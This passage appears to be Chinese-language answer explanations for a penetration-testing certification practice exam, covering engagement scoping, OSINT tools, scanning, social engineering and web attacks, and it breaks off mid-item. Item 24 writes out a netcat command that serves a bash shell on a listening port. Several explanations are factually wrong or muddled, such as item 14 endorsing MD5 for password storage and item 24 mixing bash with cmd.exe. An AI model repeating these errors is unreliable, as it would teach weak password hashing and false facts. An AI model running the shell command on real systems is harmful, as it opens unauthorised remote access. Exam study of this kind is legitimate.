### 9. C.
在此场景中，最佳方法是通过进行影响分析来确定客户对影响的容忍度。由于此漏洞扫描器可能导致其系统宕机，您需要了解客户的容忍水平以及系统宕机将如何影响客户。您还需要确保客户了解运行扫描器所涉及的所有风险。

### 10. A.
保密性、完整性和可用性被称为 CIA 三要素。它是一种旨在指导组织内部信息安全政策的模型。网络安全专业人员使用该模型来描述信息安全的目标。CIA 三要素具有网络安全计划寻求保护的信息的三个主要特征：
* 保密性旨在防止未经授权访问信息或系统。
* 完整性旨在防止信息或系统未经授权的修改。
* 可用性旨在确保信息和系统的合法使用仍然可行。

### 11. B and E.
了解公司政策及其对影响的容忍度是在规划 engagement 时需要了解的最重要事项之一。其他事项也很重要，但在这种情况下，问题是其中哪两个最重要。网络安全专业人员普遍认为漏洞管理是任何信息安全计划的关键组成部分，因此，许多组织在公司政策中强制要求漏洞扫描，即使这不是监管要求。应使用被评估组织的风险和影响容忍度来定义评估的范围和参与规则。

### 12. D.
工作说明书（SOW）定义了在 engagement 期间将进行的工作。SOW 是一份文件，定义了测试的目的、将进行哪些测试、将创建什么、测试完成的期限、测试的价格以及任何附加条款和条件。

### 13. D.
工作说明书（SOW）定义了在 engagement 期间将进行的工作。SOW 是一份文件，定义了测试的目的、将进行哪些测试、将创建什么、测试完成的期限、测试的价格以及任何附加条款和条件。MSA 定义了组织将用于任何未来工作的条款。NDA 是强制执行双方保密关系的法律文件。NDA 概述了相关方、应被视为保密的信息、协议持续时间、何时/如何披露是可以接受的，以及应如何处理保密信息。测试人员向客户开具的详细发票只是一张发票，不是法律文件。

### 14. A.
公司政策（企业政策）是一套文件化的指导方针，是在分析可能影响公司目标、运营和计划的所有内部和外部因素后制定的。它由公司董事会创建。企业政策规定了公司对已知和可知情况和环境的响应。它还决定战略的制定和实施，并指导和限制公司官员为实现其目标而制定的计划、决策和行动。在此场景中，企业政策应非常详细和具体；因此，企业系统必须使用 MD5 哈希算法存储密码。

### 15. A.
证书固定将主机与 X.509 证书（或公钥）关联，然后使用该关联做出信任决策。您使用证书固定来帮助防止中间人攻击。在公共网络上通信时，安全地发送和接收信息非常重要。

### 16. D.
红队评估通常比正常的渗透测试更具针对性。红队像攻击者一样行动，针对敏感数据或系统，目标是获取访问权限。基于目标或基于目标的评估通常旨在评估组织的整体安全性，而基于合规性的评估旨在测试对特定法律的合规性。

### 17. A.
高级持续性威胁（APT）是一种计算机网络攻击，其中个人或团体获得对网络的未经授权访问并在一段较长时间内未被检测到。APT 在对手分级列表中提供最高级别的威胁。高级持续性威胁行为者使用的许多技术对渗透测试人员很有用，反之亦然。如果您的持久性技术未被客户系统监控或检测到，则结果应包括可以帮助他们设计解决此潜在问题的信息。

### 18. B.
国家威胁行为者已获得“开始”黑客攻击的许可。他们为政府工作，以破坏或破坏目标政府、组织或个人，从而获得有价值的数据或情报的访问权限，并可能造成具有国际意义的事件。脚本小子是个体，使用更高级黑客编写的代码进行攻击。黑客活动人士通常攻击目标以发表政治声明。有组织犯罪威胁行为者是一群网络犯罪分子，其目标是经济利益。


### 19. B.
灰盒测试是黑盒测试和白盒测试的结合。灰盒测试可能会向渗透测试人员提供有关环境的某些信息，而不会提供完全访问权限、凭据或配置细节。灰盒测试可以帮助聚焦渗透测试人员的努力和时间，同时提供恶意内部人员实际会遇到的精确视图。在黑盒渗透测试中，测试人员对目标没有任何先验知识。在白盒测试中，测试人员对目标有广泛的知识。

### 20. B.
在此场景中，客户要求测试人员进行基于目标的评估。基于目标的评估是出于特定原因进行的。一些示例包括验证新的安全设计、在应用程序或服务基础设施投入生产前进行测试，或评估组织的安全性。并购前评估通常在组织合并之前对该组织进行。基于合规性的评估是为了确保组织符合政府法规或公司政策。供应链评估涉及测试组织的供应商。

### 21. B.
风险评估通常涉及识别漏洞或潜在弱点区域，并提供通往更强安全态势的路线图。在此场景中，客户完全理解渗透测试可能会对其网络造成中断，并且他们愿意接受这些风险。

### 22. B.
风险响应是控制已识别风险的过程。它是任何风险管理过程中的基本步骤。风险响应是规划和决策过程，客户在其中决定如何处理每个风险。风险规避是消除可能对组织资产产生负面影响的危害、活动和暴露。在此场景中，客户通过移除门并砌墙使用了风险规避。

### 23. A.
高级持续性威胁（APT）是一种计算机网络攻击，其中个人或团体未经授权访问网络并在一段较长时间内未被发现。APT 在对手分级列表中提供最高级别的威胁。威胁行为者通常按其能力进行评级。高级持续性威胁行为者使用的许多技术对渗透测试人员有用，反之亦然。如果您的持久性技术未被客户系统监控或检测到，则结果中应包含可以帮助他们围绕此潜在问题进行设计的信息。

### 24. D.
在此场景中，您的计算机的 IP 地址已被列入黑名单。列入黑名单是客户防御实践的一部分。您的扫描被入侵保护系统（IPS）检测到，其结果是您计算机使用的 IP 地址被列入黑名单。列入黑名单的工作方式是通过维护应用程序和其他“已知”信息的列表。在这种情况下，您的 IP 地址被用来拒绝您访问网络。

### 25. D.
白盒测试，有时称为 `crystal box` 或 `full knowledge` 测试，允许测试人员查看网络内部的一切。它们是在对构成目标的主要技术、配置和设置有充分了解的情况下执行的。测试人员通常会拥有包括网络图、系统列表和 IP 网络范围，甚至对系统的凭据在内的信息。白盒测试通常更完整，因为测试人员可以访问范围内的每个系统、服务或其他目标。

### 26. D.
黑盒测试，有时称为 `zero knowledge` 测试，旨在复制外部攻击者会遇到的情况。测试人员未被提供对环境的访问或信息，而必须像攻击者一样收集信息、发现漏洞并通过基础设施或系统。

### 27. C.
大多数渗透测试项目中的第一步是确定应测试什么，通常称为评估的 `scope`。评估范围决定了渗透测试人员将做什么以及他们的时间如何花费。因此，这对评估的预算有重大影响。

### 28. C.
范围蔓延发生在将额外项目添加到评估范围时。测试人员已超出初始评估协议的范围。

### 29. B.
黑客活动分子可能想要表达政治或社会观点。黑客活动分子通常不是为了钱而进行攻击。他们是聚集在一起并认为自己在为不公正而战的个人或黑客团体。黑客活动分子使用与黑客相同的工具和战术。

### 30. C.
主服务协议（MSA）设定了两个组织之间的总体条款。许多组织也会创建 MSA，这将定义组织未来工作所使用的条款。这使得持续的项目和合同更容易处理。这可以帮助组织避免重新谈判的需要。当组织预计在一段时间内共同工作或创建支持协议时，MSA 很常见。

### 31. C.
1996 年《健康保险可携性和责任法案》（HIPPA）是一项美国立法，要求对医疗信息的安全提供数据隐私和安全条款。随着网络攻击和勒索软件攻击导致健康保险公司和提供者健康数据泄露激增，该法律最近变得更加重要。

### 32. B.
《格雷姆-里奇-布莱利法案》（GLBA）也称为 1999 年《金融现代化法案》。它是美国联邦法律，要求金融机构说明它们如何共享和保护客户的私人信息。

### 33. D.
被动扫描是一种漏洞检测方法，依赖于从目标计算机捕获的网络数据中获得的信息，而无需直接交互。对攻击者而言，被动扫描的主要优势在于它不会留下可能提醒用户或管理员的痕迹。对管理员而言，主要优势在于它不会在目标计算机上引起不期望的行为。被动扫描确实存在局限性。它不如主动漏洞扫描那样在细节上完整，并且无法检测当前未发送流量的任何应用程序。

### 34. D.
开源情报（OSINT）工具和技术是指通过公开可用信息获取组织和技术细节，这些细节在渗透测试期间可能证明有用。OSINT 是可以轻松收集的信息。OSINT 通常用于确定组织的足迹，其中包括组织拥有的所有系统、网络和其他技术的列表。

### 35. B.
Nessus 是一种商业漏洞扫描工具，用于扫描各种设备，但它不是用于 OSINT 收集的可用工具之一。有多种工具可协助进行此 OSINT 收集：
- Censys 是一种基于网络的工具，可探测互联网上的 IP 地址，然后通过搜索引擎为渗透测试人员提供访问该信息。
- Fingerprinting Organizations with Collected Archives (FOCA) 是一款开源工具，用于在 Office 文档、PDF 和其他常见文件格式中查找元数据。
- Maltego 是一款商业产品，可协助可视化从 OSINT 工作中收集的数据。
- Nslookup 工具有助于识别与组织关联的 IP 地址。
- Recon-ng 是一个模块化网络侦察框架，可组织和管理 OSINT 工作。
- Shodan 是一个专用搜索引擎，用于从公共来源发现易受攻击的物联网（IoT）设备。
- theHarvester 搜查搜索引擎和其他资源，以查找有关组织的电子邮件地址、员工姓名和基础设施细节。


* `Whois` 工具从公开记录中收集有关域名所有权的信息。

### 36. B.
计算机应急响应团队（`CERT`）专注于安全漏洞和拒绝服务事件，提供警报以及事件处理和规避指南。`CERT` 还开展持续的公众宣传活动，并从事旨在改进安全系统的研究。

### 37. A.
通用攻击模式枚举和分类（`CAPEC`）列表是一种旨在帮助识别和记录攻击及攻击模式的资源。用户可以根据其机制或领域搜索攻击，然后根据各种属性和先决条件对每种攻击进行分解。`CAPEC` 还建议解决方案和缓解措施，这在编写渗透测试报告时识别控制措施方面很有用。

### 38. A.
`Censys` 是一款基于 Web 的工具，用于探测给定的 IP 地址。它是一个搜索引擎，可帮助渗透测试人员发现、监控和分析可从互联网访问的设备。`Censys` 允许研究人员查找特定主机，并创建关于设备、网站、证书和所用密码部署情况的汇总报告。

### 39. A.
`Aircrack-ng` 是一套完整的工具，用于评估无线网络安全。它专注于 Wi-Fi 安全的不同领域。
* 监控：数据包捕获并将数据导出为文本文件，以便第三方工具进一步处理。
* 攻击：通过数据包注入进行重放攻击、去认证、伪造接入点等。
* 测试：检查 Wi-Fi 卡和驱动程序功能。
* 破解：有线等效隐私（WEP）和 Wi-Fi Protected Access 2 – 预共享密钥（WPA PSK）。

### 40. D.
国家漏洞数据库（`NVD`）是美国政府基于使用安全内容自动化协议（`SCAP`）表示的漏洞管理数据的标准存储库。这些数据实现了漏洞管理、安全度量和合规性的自动化。`NVD` 包括安全清单参考、安全相关软件缺陷、配置错误、产品名称和影响指标的数据库。

### 41. B.
在此场景中，客户要求您执行黑盒渗透测试。由于这是黑盒测试，您很可能会花费大部分时间进行信息收集和漏洞识别阶段。黑盒测试有时称为零知识测试，旨在复制外部攻击者会遇到的情况。测试人员未被提供对环境或有关环境的访问信息，因此他们必须收集信息、发现漏洞并像攻击者一样进入基础设施或系统。这对渗透测试人员来说可能非常耗时。

### 42. D.
`Whois` 是一种广泛使用的互联网记录列表，可识别域名所有者以及如何与他们联系。互联网名称与数字地址分配机构（`ICANN`）监管域名注册和所有权。`Whois` 记录已被证明极有帮助，并已发展成为维护域名注册和网站所有权流程完整性的重要资源。

### 43. B.
发现扫描可识别网络上运行的操作系统，将这些系统映射到 IP 地址，并枚举这些系统上的开放端口和服务。发现扫描为渗透测试人员提供了一种自动识别网络上存在的主机并构建资产清单的方法。

### 44. D.
凭据扫描需要对目标服务器进行只读访问。客户应遵循最小权限原则并限制提供给测试人员的访问权限。您应考虑要求创建具有类似只读访问权限的特定 `audit` 账户。专用 `audit` 账户的优点是会出现在日志中，并能立即被 IT 部门所有人识别为可能已批准的活动。

### 45. D.
代码测试通常使用静态或动态代码分析以及模糊测试和故障注入等测试方法进行。一旦对代码进行更改并部署，就必须重新测试以确保更改不会产生任何新的安全问题。由于您在此场景中仅审查代码，因此您将进行静态代码分析。静态代码分析也称为源代码分析，是通过审查应用程序的代码来完成的。由于静态分析使用源代码，因此可被视为一种具有完全可见性的白盒测试类型。这可以使测试人员发现其他测试可能无法发现的问题。

### 46. B.
`Dsquery.exe` 是用于查找 Active Directory 域中各种对象信息的命令行实用程序。该实用程序默认在所有 Windows Server 版本中可用。`dsquery` 命令允许您查询 `LDAP` 目录以查找符合指定条件的对象。作为 `dsquery` 命令的一个属性，您需要指定要搜索的 AD 对象的类型。在此场景中，您正在查找过去 30 天未活跃的用户账户，因此您将使用 `dsquery user -inactive < NumWeeks >`。

### 47. D.
参与的时间表以及何时可以进行测试将对高峰时段客户系统的观察和测试产生最大影响。一些评估将安排在非关键时间段，以最大限度地减少任何潜在停机的影响，而另一些可能安排在正常工作时间内，以帮助测试组织对攻击的反应。

### 48. C and E.
合规扫描侧重于应用于系统的配置设置或安全加固。当对单个计算系统执行合规扫描时，它会生成一份报告，定义系统针对所选合规框架的加固程度。合规扫描并非旨在定位软件应用程序或操作系统的漏洞，而是旨在定位和评估系统加固配置中的漏洞。在此场景中，由于您在网络上看到的资产比网络架构中提供的更多，您可以将此归因于网络访问或存储访问受限。

### 49. C.
完整扫描将为您提供更有用的结果，因为它包含更多测试。场景中没有要求测试人员避免被检测，因此隐蔽扫描不是必要的。但由于这是一项黑盒测试，最好的做法是在网络上运行完整扫描。

### 50. A.
凭据扫描是指扫描计算机在被扫描计算机上拥有一个账户，从而允许扫描器进行更彻底的检查，以查找从网络上看不到的问题。凭据扫描在企业漏洞管理程序中广泛使用，并在执行渗透测试时是一种有用的工具。凭据扫描可以访问操作系统、数据库和应用程序。凭据扫描通常仅从目标服务器检索信息，而不会对服务器本身进行更改。

### 51. D.
在渗透测试期间，测试人员可能希望将扫描配置为隐蔽扫描运行。隐蔽扫描会竭尽全力避免使用可能引起注意的测试。扫描引起的服务中断、错误消息和日志条目可能会引起网络安全团队的注意，导致他们以妨碍渗透测试的方式调整防御措施。使用隐蔽扫描更能逼真地模拟熟练攻击者的活动，从而实现更逼真的渗透测试。


### 52. C.
在此场景中，由于端口 23 是开放的，这表明你所在的服务器是 Telnet 服务器。Telnet 是一种用户命令，也是用于访问远程计算机的底层 TCP/IP 协议。使用 Telnet，管理员或其他用户可以远程访问他人的计算机。Telnet 使用命令行界面。Telnet 服务器与客户端之间传输的信息未加密发送。这意味着任何身份验证信息也可能被捕获。

### 53. B.
在此场景中，渗透测试人员发现的所有端口都与 Web 有关。因此，此问题的答案是 Web 服务器上可能泄露敏感信息，因为漏洞扫描中指出的就是这些端口。
* 端口 21 是 TCP/FTP，即控制端口。
* 端口 80 是 TCP/HTTP，用于传输网页。
* 端口 443 是 TCP/HTTPS，即通过 TLS/SSL 的 HTTP 协议，用于加密传输。

### 54. D.
假阳性是指系统错误地将生物特征样本接受为匹配项。生物特征传感器有时会因多种原因出错。识别过程会将呈现在系统上的生物特征（如指纹或虹膜扫描）与数据库中的所有条目进行比较以寻找匹配项。这被称为 *one-to-many* 搜索。活体生物特征会因年龄、气候或手指可能受伤而发生变化。厂商将这些阈值设置称为误接受率（FARs）和误拒绝率（FRRs）。

### 55. B.
假阳性是在某些评估过程中出现的错误，即所测试的条件被错误地判定为已检测到。扫描器可能无法充分访问目标系统以确认漏洞，或者插件可能存在错误，从而生成错误的漏洞报告。当扫描器报告不存在的漏洞时，这被称为 *false positive error*。

### 56. A.
通用漏洞评分系统（CVSS）是用于评定安全漏洞严重程度的框架。CVSS 使用算法确定三个严重性评分：基础、时间性和环境性。分数是数值型，范围从 0.0 到 10.0。最严重的是 10.0。根据 CVSS，0.0 分得 None 评级，0.1–3.9 分为低严重性评级，4.0-6.9 分为中等评级，7.0–8.9 分为高评级，9.0–10.0 分为严重评级。在此场景中，得分为 3.6，属于低类别。

### 57. A.
字典攻击是一种通过将字典中的每个单词逐一输入作为密码来破解受密码保护的计算机或服务器的方法。字典攻击之所以有效，是因为许多计算机用户使用普通单词作为密码。字典攻击依赖于预先构建的词典。在许多情况下，渗透测试人员可以根据知识为其渗透测试向词典文件添加额外的特定词典条目；这在执行字典攻击时是有益的。在此场景中，渗透测试人员使用了社交媒体来查找可能对字典攻击有益的额外关键词。

### 58. C.
在此场景中，由于客户员工使用字典单词作为密码，最好的防范方法是扩展密码长度并添加特殊字符。用于密码的特殊字符是标准美国键盘上的一组标点字符。其中包括 !"#$%&’()\*+,-./:;<=>?@\[\\\]^\_’{|}~。这将使攻击者更难入侵客户的系统。

### 59. D.
当目标平台使用不同架构时，会使用交叉编译代码。测试人员可能无法访问目标机器上的编译器，或可能需要从主工作站编译漏洞利用代码，而主工作站的架构与目标不同。

### 60. A and B.
彩虹表通过执行查找而不是使用暴力破解，提供了一种强大的攻击哈希密码的方法。彩虹表是针对给定密码要求集的每种可能密码的预计算列表，然后基于已知的哈希算法（如 MD5）进行哈希处理。彩虹表用于反向攻击哈希密码。彩虹表通常是仅限离线的攻击。它使用的计算周期比任何其他形式的攻击都少。暴力攻击是通过试错方法尝试破解密码或用户名，攻击者提交大量密码或短语，有机会最终猜对密码。

### 61. A.
彩虹表是针对给定密码规则集的所有可能密码的预计算哈希列表。彩虹表工具将哈希与之前计算的哈希进行比较，从而匹配到已知的密码值。这是通过相当快的数据库查找完成的，即使哈希不可逆，也允许“破解”哈希密码。密码文件是哈希值列表。

### 62. A.
物联网（IoT）是指连接到互联网的物理产品和设备的网络。制造商和开发商希望最大限度地降低成本以增加利润。因此，安全性通常不是产品或设备的主要特性。因此，与网络上的任何其他设备一样，物联网设备可能存在安全漏洞，并可能遭受基于网络的攻击。

### 63. D.
SNMP 暴力攻击使用 SNMP 查询攻击 IP 地址，以确定 SNMP 只读和读写社区字符串（或密码）。它通过尝试每种可能的密码来实现这一点。SNMP 创建的主信息库（MIB）数据库包含网络上每个设备的重要信息。如果测试人员能够破解 SNMP 密码，他们可能能够控制每个联网设备。这将允许更改配置以使设备离线。

### 64. C.
在此场景中，唯一不属于制造的部分是实时操作系统（RTOS）。RTOS 是任何旨在为实时应用程序服务的操作系统，这些应用程序在数据到来时进行处理，通常没有缓冲延迟。工业控制系统（ICS）一词用于描述不同类型的控制系统及其相关仪器，包括用于操作和/或自动化工业过程的设备、系统、网络和控制装置。监控控制与数据采集（SCADA）系统用于在包括制造、水处理、采矿、石油精炼、运输和电力分配在内的广泛行业中监控和控制生产过程。可编程逻辑控制器（PLC）是一种工业固态计算机，用于监控输入和输出，并为自动化过程或机器做出基于逻辑的决策。PLC 是一种工业数字计算机，已被改装用于控制制造过程，例如装配线、机器人设备或任何需要高可靠性控制以及易于编程和过程故障诊断的活动。

### 65. B.
审讯（也称为 *questioning*）是对个人进行访谈，目的是获取有用信息。审讯可能涉及广泛的技术，从与个人建立联系到酷刑。使用这种技术时，恐惧可以作为一种激励因素。然而，这种技术通常不被渗透测试人员使用。


## 问题 66-80

66. A. 社会工程学针对的是人而非计算机，并依赖于个人或团体违反安全程序、政策和规则。社会工程学可以通过面对面、电话、短信或电子邮件进行。在此场景中，攻击者使用了社会工程学中的权威原则。他们希望财务部的 Sue 收到公司总裁的电子邮件后不会提出任何疑问，转账就会进行。权威遵循的信念是人们倾向于服从权威人物，即使被要求执行令人反感的行为。

67. A. 冒充涉及伪装成他人以获取设施或资源的访问权限。这可能简单到声称自己是员工，也可能复杂到穿着制服并出示假的公司 ID。在此场景中，攻击者致电帮助台技术人员，假装是员工。

68. C. 社会工程师工具包 (`SET`) 提供了自动化社会工程流程的框架，包括发送精准钓鱼消息、托管虚假网站和收集凭据。社会工程在许多攻击中发挥着重要作用。`SET` 是一个菜单驱动的社会工程攻击系统。在此场景中，渗透测试人员正在尝试一次精准钓鱼攻击。

69. C. Vishing（语音钓鱼）是通过电话系统的社会工程。钓鱼攻击针对敏感信息，如密码、用户名或信用卡信息。Vishing 与钓鱼类似，但使用语音技术进行。Vishing 攻击可以通过语音邮件、语音 over IP（VoIP）或固定电话或移动电话进行。在此场景中，由于总裁正在接听电话，这是一次 vishing 攻击。

70. B. 链路本地多播名称解析（LLMNR）和 NetBIOS 名称服务（NetBIOS-NS）中毒可以使渗透测试人员获得中间人位置，从而扩大其获取访问权限和信息的能力。在 Windows 网络中，最常被攻击的目标服务之一是 NetBIOS。NetBIOS 通常用于文件共享。

71. D. ARP 欺骗是一种攻击者向局域网发送（伪造的）地址解析协议（ARP）消息的技术。通常，目标是将攻击者的媒体访问控制（MAC）地址与另一台主机（如默认网关）的 IP 地址关联起来，导致本应发送到该 IP 地址的任何流量都被发送到攻击者。ARP 欺骗可能允许攻击者拦截网络上的数据帧、修改流量或停止所有流量。

72. A. 中间人攻击发生在第三方实体拦截双方通信时。中间人攻击是一种常见的网络安全攻击，允许攻击者窃听两个目标之间的通信。攻击发生在两个合法通信主机之间，使攻击者能够“监听”对话。

73. A. 在此场景中，你需要获知客户无线设备使用的频段和频率才能继续进行无线渗透测试。无线设备可能在多个频段和频率上运行，但了解确切的频段和频率将使渗透测试人员能够按要求进行无线渗透测试。

74. C. 降级攻击是一种攻击形式，测试人员强迫网络通道切换到更不安全或未受保护的数据传输标准。降级协议是中间人类型攻击的一个组成部分，用于拦截加密流量。降级攻击通过使客户端和服务器使用更不安全的协议来实现。在此场景中，由于你试图捕获所有未加密的 Web 流量，你希望实施 HTTP 降级攻击。

75. C. 蓝牙劫持是指攻击者通过蓝牙设备发送未经请求的短信。蓝牙劫持是一种黑客方法，允许个人向一定半径范围内的蓝牙启用设备发送匿名消息。首先，黑客使用蓝牙启用设备扫描周围环境，寻找其他设备。然后黑客向检测到的设备发送未经请求的短信。

76. B. 在此场景中，输入了一条命令，攻击者试图访问 `/etc` 目录中的密码文件。命令注入是一种攻击，其目标是通过易受攻击的应用程序在主机操作系统上执行任意命令。当应用程序将不安全的用户提供数据（表单、Cookie、HTTP 头等）传递给系统 shell 时，就可能发生命令注入攻击。

77. B. 跨站脚本（XSS）攻击发生在 Web 应用程序允许攻击者执行 HTML 注入，将自己的 HTML 代码插入网页时。在此场景中，攻击者试图使用 Web 浏览器通过 JavaScript 代码操纵 HTML iframe。

78. C. 在尝试获取主机、系统或应用程序访问权限时，第一步之一是枚举用户名。一旦猜出用户名，就可以尝试有针对性的基于密码的攻击。RID 循环攻击尝试通过空会话枚举用户账户。如果测试人员指定了密码文件，在枚举完成后它将自动尝试暴力破解用户账户。因此，在此场景中，尝试 RID 循环将是测试人员下一步应尝试的操作。

79. E 和 F. 鉴于此场景，客户希望对 SQL 语句使用黑名单和白名单验证。SQL 注入是一种常见的攻击途径，使用恶意 SQL 代码对后端数据库进行操作，以访问本无意显示的信息。SQL 注入是最常见的 Web 黑客技术之一。黑名单验证将外部输入与一组已知恶意输入进行测试。白名单验证将外部输入与一组已知、已批准的输入进行测试。使用白名单输入验证，应用程序确切知道需要什么并拒绝其他输入。

80. B. 在此场景中，`..` 操作符是明显的线索，表明攻击者试图进行目录遍历攻击。此次攻击试图突破 Web 服务器的根目录并访问服务器上的 `/etc/passwd` 文件。目录遍历攻击是一种 HTTP 攻击，允许攻击者访问受限目录并在 Web 服务器根目录之外执行命令。

## 第 7 章：练习考试 2

1. A. TCP SYN 洪泛（也称为 SYN 洪泛）是一种拒绝服务（DoS）攻击形式，测试人员向目标系统发送一系列 SYN 请求，试图消耗足够的服务器资源，使系统对合法流量无响应。这利用了正常的 TCP 三次握手的一部分，并消耗目标服务器的资源，使其无响应。

2. D. 存储型跨站脚本（XSS）是最危险的跨站脚本类型。允许用户存储数据的 Web 应用程序可能暴露于此类攻击。存储型 XSS 发生在 Web 应用程序收集可能恶意的用户输入然后将其存储在数据存储中以供以后使用时。

3. B. HTML 中的表单可以在 `<form>` 元素中使用 `method="POST"` 或 `method="GET"`（默认）。指定的方法决定了表单数据如何提交到服务器。使用 GET，参数会保留在浏览器历史记录中，因为它们成为 URL 的一部分。使用 POST，参数不会保存在浏览器历史记录中。与 POST 相比，GET 的安全性较低。


# 安全评估笔记

## 4. D. 竞态条件
竞态条件发生在代码段的安全性取决于系统内事件发生的顺序时。检查时到使用时（`TOCTTOU`）问题是一种竞态条件，当程序在资源请求之前过早地检查访问权限时就会发生。

## 5. A. 网站使用 HTTP Cookie
网站使用 HTTP Cookie 在一段时间内保持会话。如果测试人员能够获取到用户会话 Cookie 的副本，那么他们就可以使用该 Cookie 冒充用户的浏览器并劫持已认证的会话。能够获取用于验证用户网络会话的会话 Cookie 的攻击者可以劫持该会话并控制用户的账户。用于身份验证的 Cookie 应始终安全创建，并且仅通过安全、加密的通信通道传输。

## 6. A. 社会工程学
社会工程学针对的是人而非计算机，并依赖个人或团体违反安全程序、政策和规则。社会工程学可以面对面进行，也可以通过电话、短信或电子邮件进行。在此场景中，攻击者使用了社会工程学中的权威原则。权威遵循这样的信念：人们倾向于服从权威人物，即使被要求执行令人反感的行为。

## 7. D. Pty 模块和 su
`pty` 模块允许渗透测试人员生成一个伪终端，可欺骗像 `su` 这样的命令。`Nmap` 将识别客户端系统上运行的设备，发现可用的主机和服务，找到开放端口并检测安全风险。在此场景中，客户端未禁用 Telnet，因为端口 23 仍处于开放状态。Telnet 是一种基于可靠面向连接传输的客户端-服务器协议。通常，该协议使用端口 23 建立到传输控制协议（TCP）的连接，其中 Telnet 服务器应用程序（`telnetd`）正在监听。

## 19. C. Hping
`Hping` 是一款命令行工具，允许测试人员生成网络流量。`Hping` 很受欢迎，因为它允许你创建自定义数据包。在此场景中，你将向 TCP 端口 80 发送 TCP SYN。`-S` 开关要求 `hping` 发送 SYN 流量，`-V` 开关为详细模式，`-p` 开关表示端口。

## 20. A. Nmap 端口扫描
`Nmap` 是最常用的命令行漏洞扫描器，是一款免费的开源工具。它提供广泛的功能，包括多种旨在绕过防火墙和其他网络保护设备的扫描模式。`Nmap` 是一款端口扫描器。要扫描端口，您需要使用 `-p <port ranges>`（仅扫描指定端口）。此选项指定要扫描的端口并覆盖默认扫描。单个端口号或范围均可接受。范围由连字符分隔（例如 1–1023）。范围的开始和/或结束值可以省略，导致 `nmap` 分别使用 1 和 65535。因此，您可以指定 `-p-` 来扫描 1 到 65535 的端口。扫描系统端口只需安装 `nmap` 并提供目标系统的主机名或 IP 地址。


### 21. A 和 F.
`nmap` 最为人熟知的功能之一是使用 TCP/IP 栈指纹识别进行远程操作系统检测。`nmap` 向远程主机发送一系列 TCP 和 UDP 数据包并检查响应。`-iL` `<inputfilename>`：这是从主机/网络列表中输入的。`-sV`：探测开放端口以确定服务/版本信息。

### 22. D.
被动侦察也被称为开源情报（`OSINT`）。被动侦察背后的思想是仅使用公开可用的资源收集有关目标的信息。`Shodan` 是一个专用搜索引擎，通过使用各种过滤器提供对连接到互联网的特定类型计算机和设备的发现。`Peach` 是一款模糊测试工具，`OpenVAS` 执行网络漏洞扫描，而 `CeWL` 是一款自定义词表生成器，可搜索网站中的关键字，这些关键字可能用于密码猜测攻击。

### 23. D 和 F.
在这种情况下，最佳选择是 `SSH` 和 `Wireshark`。安全外壳（`SSH`）在系统之间提供安全的加密连接。`SSH` 通过加密连接提供远程 shell 访问。`SSH` 用于通过安全的命令行访问系统，通常通过 TCP 端口 `22`，并且存在于各种类型的设备和系统上。由于 `SSH` 非常常见，测试提供 `SSH` 服务的系统对于渗透测试员来说是一个非常有吸引力的选择。`Wireshark` 是一种协议分析器，允许渗透测试员窃听和剖析网络流量。`Wireshark` 还允许从无线网络捕获网络流量。

### 24. A.
`Netcat` 可以在几秒钟内设置 Telnet 服务器。您可以使用 `-e` 参数指定在成功连接时 `Netcat` 要运行的 shell。在这种情况下，正确的语法是 `nc -lp 444 -e /bin/bash`。`nc` 告诉 Windows 使用以下参数运行 `nc.exe` 文件：
* `-l`：指定侦听模式，用于入站连接
* `-p`：指定要侦听连接的端口
* `-e`：指定端口连接后要运行的程序（`cmd.exe`）
* `-v`：详细输出，在标准错误上打印消息，例如连接发生时

### 25. D.
`Responder` 是一个工具包，用于回答网络上 Windows 系统的 `NetBIOS` 查询。`Responder` 在利用 `NetBIOS` 响应时是一个强大的工具。它可以针对单个系统或整个本地网络，允许您分析或响应 `NetBIOS` 名称服务，假装自己是查询的目标系统。

### 26. C 和 E.
有多种工具可协助进行此 OSINT 收集：
* `Censys` 是一款基于 Web 的工具，可探测互联网上的 IP 地址，然后通过搜索引擎为渗透测试人员提供访问该信息的方式。
* Fingerprinting Organizations with Collected Archives（`FOCA`）是一款开源工具，用于在 Office 文档、PDF 和其他常见文件格式中查找元数据。
* `Maltego` 是一款商业产品，可帮助可视化从 OSINT 工作中收集的数据。
* `Nslookup` 工具有助于识别与组织关联的 IP 地址。
* `Recon-ng` 是一个模块化 Web 侦察框架，可组织和管理 OSINT 工作。
* `Shodan` 是一个专用搜索引擎，可从公共来源发现易受攻击的物联网（IoT）设备。
* `theHarvester` 搜索搜索引擎和其他资源，以查找有关组织的电子邮件地址、员工姓名和基础设施详细信息。
* `Whois` 工具从公共记录中收集有关域名所有权的信息。

### 27. A.
`Impacket` 是一组用于处理网络协议的 `Python` 类。`Impacket` 提供了一系列工具，包括在捕获哈希后使用哈希进行身份验证的能力。`Metasploit` 的 SMB 捕获模式、`Responder` 和 `Wireshark` 都可以从广播中捕获 SMB 哈希，但在这种情况下，您还希望在捕获消息后能够使用哈希进行身份验证。

### 28. B.
在凭据暴力破解攻击中，测试人员将尝试使用每个用户名和密码登录应用程序。`Hydra` 是一款暴力破解工具，可以使用密码猜测破解系统。

### 29. B 和 C.
`nmap` 和 `hping` 实用程序可用于主动枚举和指纹识别目标系统。`Hping` 是一款命令行工具，允许测试人员人工生成网络流量。`Hping` 很受欢迎，因为它允许您创建自定义数据包。`Nmap` 是最常用的命令行漏洞扫描器，是一款免费的开源工具。它提供广泛的功能，包括多种旨在绕过防火墙和其他网络保护设备的扫描模式。`Whois` 是一款从公共记录中收集有关域名所有权信息的工具。`Aircrack-ng` 提供了执行重放和去认证攻击以及充当假接入点的能力。

### 30. C.
通过从命令行运行 `msfconsole` 启动 `Metasploit`。`MSFconsole` 位于 `/usr/share/metasploit framework/msfconsole` 目录中。

### 31. B.
`Mimikatz` 是一个开源实用程序，可使用其 `sekurlsa` 模块查看来自 Windows 本地安全机构子系统服务（`LSASS`）的凭据信息，其中包括明文密码和 `Kerberos` 票据，然后可用于 `pass-the-hash` 和 `pass-the-ticket` 等攻击。在这种情况下，问题中 however 指出“over the wire”。`Mimikatz` 是唯一不能以这种方式使用的工具。

### 32. C.
`Hydra` 设计为支持将 `NTLM` 哈希作为密码。`Hashcat` 是一款密码破解和恢复工具。`Drozer` 是 Android 安全评估的框架。`Kismet` 是 802.11 第 2 层无线网络检测器、嗅探器和入侵检测系统。`Hydra`，通常称为 `thc-hydra`，是一款暴力字典攻击工具，旨在针对各种协议和服务工作。

### 33. A.
浏览器利用框架（`BeEF`）专为此类攻击而设计。`BeEF` 提供了一套自动化工具包，用于使用社会工程学接管客户端 Web 浏览器。然后您可以使用各种网络钓鱼和社会工程技术让员工访问该站点。

### 34. A.
